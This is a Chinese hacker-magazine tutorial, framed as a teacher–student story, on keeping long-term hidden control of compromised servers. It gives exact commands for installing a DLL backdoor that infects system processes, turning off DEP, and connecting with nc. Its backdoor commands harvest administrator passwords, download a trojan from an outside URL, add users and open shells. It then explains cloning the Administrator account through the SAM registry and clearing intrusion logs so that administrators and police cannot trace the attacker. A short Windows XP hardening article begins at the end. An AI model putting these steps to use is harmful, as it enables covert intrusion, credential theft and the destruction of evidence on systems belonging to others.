


最后再告诉大家一个在Win2003中比较不错的查询当前系统摘要信息的CMD命令“SystemInfo”（图35），此CMD命令可以显示当前服务器的详细资料信息。





## 菜鸟啄锉行

### 肉鸡保卫战（下）

周伟杰（阿布）

美好的时光总是很短暂，近两个月的暑假生活就要结束了，这天燕妹妹正在家里收拾上学的东西，嘴里嘟囔着：“一只鞋子、两只鞋子、三只鞋子……”，就在这时老妈喊道：“燕子，你这本子上都记的什么东西？还要不要了啊？”燕妹妹愣住了：“本子？记的东西？”，走过去一看才知道是上次跟阿布上完课后，自己偷偷摸摸进入服务器所记录下来的服务器资料信息。燕妹妹感叹道：“唉，记了这么多东西也算对服务器有很深的了解了，那个破布也不教我下一步需要干什么（>_<）。”于是燕妹妹给阿布打电话，可是没曾想电话里一直传来“对不起，您拨打的电话已关机，请稍后再拨……”的提示。

此时的阿布正一边开着QQ一边浏览MM图片站，不想却被一阵万恶的滴滴声所惊扰。看到燕妹妹的头像跳动起来，心里恐慌地急忙把游戏关掉了，问候道：“HI，美女！有什么可以为您效劳的吗？”燕妹妹送上一个笑脸：“哎？还真的在……哎！手机怎么关机了，害得我都找不到你。”经过一番解释，原来是阿布的手机由于忘记充电而自动关机了。燕妹妹继续问道：“对了，自从上次的学习之后，我已经仔细记录了服务器的信息，而且也对服务器有了不少的了解，那教我下一步需要做什么吧！”阿布严肃地说道：“嗯，还不错嘛！那好，今天就来教你怎样种马、克隆和清理日志。”

在了解服务器的信息之后，相信大家都对服务器有了更深一层的了解，那么也想好拿这台服务器做什么用了吧。不管你拿服务器做什么用，都必须有一个前提：你需要对服务器长期的控制，而且不能被管理员发现。给服务器放置一个超级无敌的后门，这样就可以长期霸占它了。对于服务器来讲权限的凭证就是账号，那么拥有一个超级权限的账号当然是事半功倍的了，但老规矩一个管理员账号又太显眼，就请克隆一显身手吧，复制一个和管理员权限一样的Guest用户出来。要想不被管理员发现，就得了解管理员可能会通过哪些方法发现你的踪迹，然后针对这些方法做出反击，就相当于把管理员的眼睛蒙起来，这样我们在服务器上做什么都不会有人来阻挠了。

#### 第一部分：服务器黑客之门

后门，又见后门！早在前几期杂志上我就介绍过了，只不过当时主要是为普通肉鸡配置后门，而现在则是针对服务器放置后门。那么普通肉鸡的后门和服务器的后门又有什么不同呢？这主要是由于服务器的特殊性而造成的……

黑客之门就是一款非常优秀的服务器后门，它只有一个DLL文件，通过感染系统文件来启动自身，被感染的系统文件大小和日期都不会改变，同时它还采用了“线程插入技术”，本身没有进程，不开端口，而是重用系统进程来打开任意一个端口，比如80、135、139、445等，这使得它很容易穿透防火墙……

至今还没有工具能够发现它。它作为黑客终极利器的最大特点就是独特的文件感染启动方式和端口重用技术，不是精品我不推荐的。

首先打开黑客之门的配置程序，可能大家要问了：“不是说只有一个DLL文件吗？DLL文件也需要配置吗？需要配置什么呢？”DLL文件也是一个服务端，只是不能自己运行，而是通过其他EXE程序调用罢了，需要配置的信息当然就是密码了，要不然谁都能连接到你的服务器上，那还了得！我们在“连接密码”处输入修改后的密码，点击“保存”按钮后程序会要求输入原密码以确认我们的身份，原始密码为“yyt_hac”，最后点击“确定”，一个DLL后门就这样配置完毕了，相当简单吧（图1）。由于黑客之门DLL文件的默认文件名为hkdoor.dll.dll，为了更好的隐蔽，我将文件名更改为了system.dll。




前面就将其改名的话，那么在配置的时候就会出现一个警告框，提示找不到默认的那个`hkdoor.dll` DLL文件（图2），只需要在配置程序中点击“浏览”按钮选择我们修改文件名的DLL文件即可。接下来就是将这个配置好的`system.dll`文件复制到系统盘的`SYSTEM32`目录下（图3），在Windows 2000下默认为`C:\winnt\system32\`目录，在Windows 2003下默认为`C:\windows\system32\`目录。

现在来安装黑客之门，黑客之门有两种安装方式：感染系统文件的安装方式和通过`svchost`启动服务的安装方式。前者不能在3389环境下来安装，由于我们控制服务器通常都是使用3389终端服务，所以需要使用后一种安装方式，如果大家使用Radmin或PcAnyWhere控制服务器的话也可以考虑使用前一种安装方式。

##### 一、感染系统文件的安装方式

打开一个CMD窗口，使用CD命令切换到系统盘的`SYSTEM32`目录下，注意“DllRegisterServer”是大小写敏感的，在CMD下执行命令：`C:\WINDOWS\system32>rundll32 system.dll, DllRegisterServer conime.exe 1 1`。上面的安装方式只感染进程，而不感染系统文件，电脑重启或进程退出后门也就退出了，适用于在自己的电脑上进行测试。

其中`system.dll`是黑客之门的服务端，必须存放到`system32`目录下，`conime.exe`是我们要感染的进程，默认是`services.exe`。如果要感染系统文件，在`system32`目录下的不带路径，其他的就要带上路径才行。第一个`1`是安装方式，`0`表示只感染系统文件，`1`表示只感染进程，`2`表示感染系统文件同时感染进程，默认为`2`；第二个`1`是启动方法，`0`是通过创建`svchost`启动的服务来启动后门，`1`是通过感染系统文件来启动后门，默认是`1`。

```
C:\WINDOWS\system32>rundll32 system.dll, DllRegisterServer
```

是默认安装方式，它会感染`services.exe`文件，以便在系统重启时启动后门，同时把自己加载到`services.exe`进程中。注意除了`csrss.exe`、`smss.exe`外，其他的系统文件都可以感染。一般情况下使用这种默认的安装方式即可，既省时又省力。

安装命令执行完后是没有任何反应的（图4），那么如何来判断是否安装成功呢？我们可以看`system.tmp`里的信息，它存放在`%winnt%\temp`目录下（图5）。在Windows 2000下默认为`C:\winnt\temp\`目录，在Windows 2003下默认为`C:\windows\temp\`目录。使用记事本打开`system.tmp`，如果看到“Start hacker's door successfully!”就说明安装成功了（图6）。



##### 二、通过 svchost 启动服务的安装方式

打开一个CMD窗口，在系统盘的`SYSTEM32`目录下执行命令：`C:\WINDOWS\system32>rundll32 system.dll, DllRegisterServer 服务名 2 0`。注意，这种方法可以在3389终端中直接进行安装。其中“服务名”必须合法，例如命令为`C:\WINDOWS\system32>rundll32 system.dll,DllRegisterServer lprip 2 0`，就是创建用`svchost.exe`来启动的`lprip`服务来启动黑客之门。如果大家不知道有什么合法的服务名，可以先随便输入一个，然后到日志（`system.tmp`）里去查看合法的服务名列表。程序在查找`svchost`所能启动的服务时如果找不到，就会返回当前系统中能够使用的合法服务名列表，所以输入完之后只要查看那个名为`system.tmp`的文件，就可以知道合法的文件名有哪些了。

- AeLookupSvc
- AppMgmt
- AudioSrv
- Browser
- CryptSvc
- DMServer
- EventSystem
- HidServ
- Ias
- Iprip
- Irmon
- LanmanServer
- LanmanWorkstation
- Messenger
- Netman
- Nla
- NtmsSvc
- NWCWorkstation
- Nwspagent
- Rasauto
- Rasman
- RemoteAccess




## 菜鸟学堂

Sacsvr、Schedule、Sclogon、SENS、SharedAccess、Themes、TrkWks、TrkSvr、WZCSVC、Wmi、WmdmPmSp、winmgmt、xmlprov、BITS、wuauserv、ShellHWDetection、helpsvc、WmdmPmSN。

同样，在安装命令执行后也是没有任何反应的（图7），查看是否安装成功的方法也是通过那个名为“system.tmp”的文件。如果按照上述两种安装方式安装时出现了“内存位置访问无效”的错误（图8），就需要先将系统的数据执行保护（DEP）功能关闭掉才行。怎么关闭呢？只需要打开服务器系统盘（默认为C盘）下的 BOOT.INI 文件，修改为“/noexecute=AlwaysOff”（图9），这样 DEP 在服务器重新启动之后就关闭了。在桌面上右键点击“我的电脑”，选择“属性”，切换到“高级”选项，点击性能的“设置”按钮，然后再选择“数据执行保护”选项，如果看到下面的选项全部为不可操作的灰色，就证明已经将 DEP 关闭了（图10），这样就可以按照上述的两种安装方式来进行安装了。

在安装完成后就可以在本地进行连接了，黑客之门提供了两种连接方式：使用 NC 进行连接和命令行客户端连接。既然可以使用 NC 进行连接，那为什么还要开发专门的命令行客户端（hdclient.exe）呢？这是因为在命令行客户端连接方式中可以传输文件，在这种方式的命令行窗口中可以使用一些不即时退出的程序，比如 ftp 等，也可以登录到其它的命令行式后门中，比如黑客之门。

## 一、使用NC的连接方式

在本地打开一个 CMD 窗口，输入命令后就是使用 NC 的高级连接模式连接 IP 为“192.168.10.250”主机的 80 端口。由于这个服务端开放了 WEB 服务，所以就连接了 80 端口，这样连接也非常隐蔽，不用害怕管理员使用 netstat 或者 iport 来查看当前开放连接的端口。

```bash
nc -vv 192.168.10.250 80
```

在 NC 提示已经连接到对方 80 端口的时候，就需要输入如下的命令 `NCLOGIN 1314521`，其中的“NCLOGIN”为黑客之门的验证字符，也可以理解为是开始接入暗语，“1314521”就是给黑客之门配置的密码了。在密码验证通过后，就会看到黑客之门的欢迎界面了，而且系统提示只需要输入“？”就可以获得详细的功能菜单了（图12）。

##### 二、命令行客户端连接方式

在本地打开一个 CMD 窗口，切换到 hdclient.exe 所在的目录下，直接输入“hdclient.exe”，查看它的提示信息，程序给出了使用命令行客户端（hdclient.exe）的方法。例如输入命令，就是使用密码为“1314521”，连接方式为“1”，连接到 IP 为“192.168.10.250”主机的 134 端口上（图13）。命令执行后，程序会自动提示当前的连接状态，如果密码验证通过的话，就会看到黑客之门的欢迎界面了（图14）。

```bash
D:\hack\hdclient.exe 192.168.10.250 134 -p 1314521 -t 1
```

##### 小知识：什么是数据执行保护（DEP）功能

数据执行保护（DEP）是一套软件技术，能够在内存上执行额外检查来帮助防止在系统上运行恶意代码。DEP 的主要优点是可以帮助防止数据页执行代码。通常情况下，不从默认堆和堆栈执行代码。硬件实施 DEP 检测从这些位置运行的代码，并在发现执行情况时引发异常。软件实施 DEP 可帮助阻止恶意代码利用 Windows 中的异常处理机制进行破坏。

要输入“？”就可以获得功能菜单了（图14），可以看到在这种连接方式中，多了几项功能，我们稍后进行讲解。

可以开启服务器的 TELNET 服务，并绑定在 7777 端口上，而且还可以自动启动 TELNET 服务，不需要重新启动服务器。“getsysinfo”命令就是获取当前服务器的系统信息，从图16中可以看到当前服务器只有一个 CPU，系统为 Windows NT 5.2（Windows 2003），计算机名为 66C18A4702CF41B，系统目录为 C:\WINDOWS\system32，当前系统方式为本地系统等信息。

“pslist”命令可以获得当前系统所运行的进程信息，前面的数字为进程的 PID 号，后面就是进程所指向的 EXE 程序了（图17）。如果想关闭哪个进程的话，可以执行“pskill 2052”，就可以关闭 PID 为“2052”的进程了，在关闭成功后会提示信息“The Process has been killed!”。

成功连接后我们来看这次“黑客之门”到底都有什么本事：

- “hver”命令可以查看当前黑客之门的版本，可以看到目前我们使用的版本为 1.2（图15）。
- “findpass”命令只能运行在使用 Windows 2000 系统的服务器中，它可以查看当前登录在服务器上的账号的密码信息，从图中可以看到当前登录的账号为“Administrator”，其密码为“1314521”，使用这个命令可以轻松地获取管理员的密码。
- 使用 `winexec "net user cc cc /add"` 命令只会运行 `net user cc cc /add` 这一条 CMD 命令（图18），并且没有回显。它的好处是运行之后仍然会返回到黑客之门的环境下。
- `geturl http://www.51ruankao.cn/muma.exe c:\muma.exe` 命令可以将事先保存在“http://www.51ruankao.cn/muma.exe”的木马文件下载到本地并保存为 C 盘下的 muma.exe，在下载完毕后会返回提示信息“Download the file successfully!”。
- `openshell` 命令可以打开一个 CMD 的 SHELL，并且会自动切换到 SHELL 环境下，可以使用它完成一系列的操作，例如执行“net user”命令查看当前服务器中的用户，可以看到刚才添加的 cc 用户。和普通的 CMD 一样，如果需要退出 CMDSHELL，输入“exit”即可。
- “open3389”命令可以开启服务器的 3389 终端服务，如果不加任何参数默认终端端口为 3389。如果想在其它的端口开启 3389 服务，只需要使用这样的命令 `open3389 8888 /r`，意思就是开启服务器的 3389 终端服务，并绑定在 8888 端口上，而且还会让服务器自动重新启动以加载配置参数。
- “opentelnet”不用多说就是开启服务器的 TELNET 服务了，如果不加任何参数的话默认端口为 23，如果想在其它的端口开启 TELNET 服务，只需要使用这样的命令 `opentelnet 7777`，便可以开启服务器的 TELNET 服务，并绑定在 7777 端口上。

上面介绍的这些功能在两种连接方式中都存在，再来介绍几条只在命令行客户端连接方式才有的命令：

- “getdisk”命令可以获取当前服务器的所有磁盘盘符（图19）。
- “get dir c:\”命令可以获取 C 盘根目录下的所有目录信息。
- “getfile c:\logfile.txt d:\1.txt”命令可以将服务器中 C 盘下的 logfile.txt 传送到本地的 D 盘下，并改名为 1.txt，在传送完毕后会给出提示信息“Get file successfully!”。
- “putfile d:\1.txt c:\111.txt”命令可以将本地 D 盘下的 1.txt 文件传送到服务器的 C 盘下，并改名为 111.txt，在传送完毕后会给出提示信息“Put file successfully!”。
- “exitshell”命令是用来退出黑客之门的。

#### 第三部分：克隆管理员帐号

克隆管理员帐号是指在服务器上使一个不属于管理员组的帐号具有与管理员一样的权限，而且还要让其他人看不出来。好处就在于登录这个不属于管理员组的帐号，就可以享受到管理员的待遇。什么待遇？当然是至高无上的系统权限了。

在克隆帐号之前必须要给我们要克隆的帐号修改密码，比如我们要把 Guest 克隆到 Administrator，就要先把 Guest 的密码改掉，因为 Guest 在克隆完毕后是不能更改的，而且还要尽量在 CMD 下来进行更改，以防意外发生（图20）。

打开“开始”→“运行”栏，输入“regedit”进入注册表，依次打开分支“HKEY_LOCAL_MACHINE\SAM\SAM”，我们会发现此分支下没有任何信息，但事实上不是没有信息，而是我们没有权限罢了。那么怎样来添加权限呢？只需要在最后一个 SAM 分支上点击右键选择“权限”，给“Administrators”组添加上“完全控制”权限即可，然后按 F5 刷新一下或者重新启动注册表，我们就可以进入 SAM 分支查看到它的内容了（图21）。

打开名为“Administrator”的分支，我们会发现它的类型为“0x1f4”（图22），它所对应的就是上面的“000001F4”分支；名为“Guest”的分支类型为“0x1f3”，对应的就是上面的“000001F5”分支。打开“000001F4”分支，可以看到右侧的“F”和“V”键值（图23），这两个键值就是克隆的关键所在。

第一种克隆方法是将“Administrator”对应的“000001F4”分支的“F”键值覆盖“Guest”对应的“000001F5”分支的“F”键值（图24）。只需要双击“F”键值，然后选中全部的数值数据，点击右键选择“复制”，然后使用“粘贴”的方法将“F”键值的数值数据覆盖即可。待服务器重新启动后，便可以使用 Guest 通过 3389 登录服务器了。通过这种方法在任务管理器中可以看到登录的帐号为“Administrator”，但是在打开开始菜单后却显示为“Guest”（图25）。

操作方法也和前面的一样，在覆盖完毕后也需要重新启动服务器。和第一种方法不同的是，虽然也使用“Guest”帐号登录（图26），但是在任务管理器和开始菜单中都可以看到登录的帐号为“Administrator”（图27）。

如果大家感觉手工克隆操作比较繁琐的话，还可以使用现成的工具代劳。打开一个 CMD 窗口，切换到克隆工具（Clone.exe）的目录下，直接输入“Clone.exe”就可以看到该工具的提示信息。例如要将 Guest 帐号克隆成 Administrator 帐号，则输入 `Clone.exe Guest Administrator` 即可。工具会自动将 Administrator 的 F 键值覆盖掉 Guest 的 F 键值，不过在克隆前还是需要先将我们要克隆的帐号（Guest）的密码改掉（图28）。

另一种克隆方法是将“Administrator”对应的“000001F4”分支的“F”“V”键值覆盖“Guest”对应的“000001F5”分支。

## 第三部分：清理入侵痕迹

经常听说有人通过 3389 等端口服务进入服务器后，肆意破坏、删除磁盘文件资料，最终被警方根据 IP 地址及拨号记录追查到。本文讨论在入侵过程中会留下哪些日志，以及如何清理相关痕迹。

可以泄露 IP 地址信息的不仅有系统日志，还有 IIS、FTP 等日志。比如通过 SQL 注入成功入侵网站，也会留下大量 IIS 日志记录。因此在入侵中涉及到的日志最好及时处理。

由于清理日志工作较繁琐，文中介绍两款工具。第一款为命令行工具，在 CMD 中切换到“日志清除器（cl）”目录，执行 `cl` 可查看使用说明，并给出多种清理方案。

```bash
cl -LogFiles 127.0.0.1 // 清理指定IP地址的日志（本机）
cl -LogFiles 192.168.0.31 C:\WINNT\system32\LogFiles // 指定日志文件目录
cl -o -file on/off // 开启/关闭TCP/IP筛选
cl -eventlog App // 清理所有应用日志
cl -eventlog Security // 清理系统安全日志
```

一般情况下，使用第 1 条和第 4 条组合即可较容易清理入侵痕迹（图31）。第二款工具同样在 CMD 下运行，执行 `CleanIISLog.exe` 可查看说明（图32），其参数用于指定日志路径与要清理的 IP。

一个命令 `CleanIISLog . 192.168.1.100` 即可将 IP 地址为“192.168.1.100”的相关日志信息清理干净（图33）。

（文中涉及到的黑客之门、nc、clone、cl、CleanIISLog，已经收录在光盘中）

### 黑客术语小补习

- 什么是社会工程学

总体上说，社会工程学是使人顺从你意愿、满足你欲望的一门艺术与学问。它并非单纯“控制意识”，而是利用人们在正常意识之外的行为；学习与运用并不容易，往往依赖经验、沟通与信息收集。

在网络安全中，社会工程学常用于获取受害者信任后实施进一步操作。技术手段严密时，人为因素常成为突破点。文中还提到早期邮件诱导、密码重置等案例，并建议阅读 Kevin Mitnick《欺骗的艺术》。

## 菜鸟崩溃行

### 如何让你的操作系统变得更安全？

阿布（周伟杰）

十一长假要来临了，只是小气的学校只放三天，这短短的三天时间干啥好呢？回家一天、在家一天、回来一天，时间太短了，就不回家了。燕妹妹一个人躺在床上数着脚趾头想着……第一天和宿舍姐妹们出去逛街，顺便买了好多好吃的零食和漂亮的衣服，累得燕妹妹腰酸背疼腿抽筋，嘴里不停地嘟囔着：要是布哥哥和我一起出去就好了，可以帮我拿东西，顺便还能给点参考意见呢。

在返回学校的 160 路公交车上真是人山人海，人声喧天，终于晃晃悠悠地回到了宿舍，立马倒床便睡，呼~呼~呼\~\~\~。等燕妹妹睡醒，天色已经黑了，一看表，哇塞，都七点了。环顾一下四周，发现一个个没良心的都跑去约会了，只剩下自己一个人“独守空房”。首先得解决吃饭问题，从柜子里拽出今天买的零食，一包包地就开始吃了起来。打开电脑看看今天都有什么新闻，开始启动 WINXP，当进入到系统的时候才发现电脑有些异常，反应慢得要死。打开任务管理器，发现了很多乱七八糟没有见过的进程，燕妹妹自言自语：“难道这就是传说中的中毒吗？”

## 一、纯手工配置安全的XP系统

一个安全的操作系统就是一个稳定的系统平台，只有在一个安全稳定的系统平台上应用程序才能高效地运行。在选择操作系统的时候也是需要注意的，比如一般用户选择使用 WINXP 系统即可，如果经常接触服务器或者需要较高的安全性则最好选择 Win2003 系统。目前网络上流行着许多 XX 版的操作系统，很多都做过手脚，未必适合用户长期使用。

在安装操作系统的时候还需要注意优化安装，不需要的东西最好不要安装，以防止出现不必要的安全问题。一般情况下默认安装完操作系统后，系统参数都是默认值，没有经过性能和安全上的优化，最好不要轻易连入网络以防止中毒。

在桌面上右键点击“我的电脑”，然后选择“管理”进入计算机管理界面（图1）。选择“系统工具”→“共享文件夹”→“共享”，查看当前默认开放的共享文件夹（图2），将没用的共享文件夹直接停止掉。选择“本地用户和组”下的“用户”，查看当前系统中都存在哪些用户账号（图3），将不需要的账号直接禁止或删除即可。

再选择“服务和应用程序”下的“服务”，查看系统默认开放了哪些服务（图4），这是安装完操作系统后最应该优化的地方，因为有很多没有用的服务都被微软定义成了默认开启状态，不仅浪费系统资源，更容易惹出漏洞来。

我精简完服务后一般只保留如下的一些基本服务（图5）：

- Computer Browser：如果不需要局域网共享的话，就禁用。
- DHCP Client：如果 IP 地址是静态的，不需要自动获取 IP 地址的话，就禁用。
- Print Spooler：如果没有打印机的话，就将这个服务禁用。
- Server：如果不需要局域网共享的话，就禁用。
- Shell Hardware Detection：如果不需要自动播放硬件功能就禁用。
- SSDP Discovery Service：如果所在的网络不允许使用 UPNP 的话，就禁用。
- System Restore Service：这个系统还原功能经常鸡肋，禁用掉。
- TCP/IP NetBIOS Helper：不需要对 NetBIOS 做解析，禁用掉。
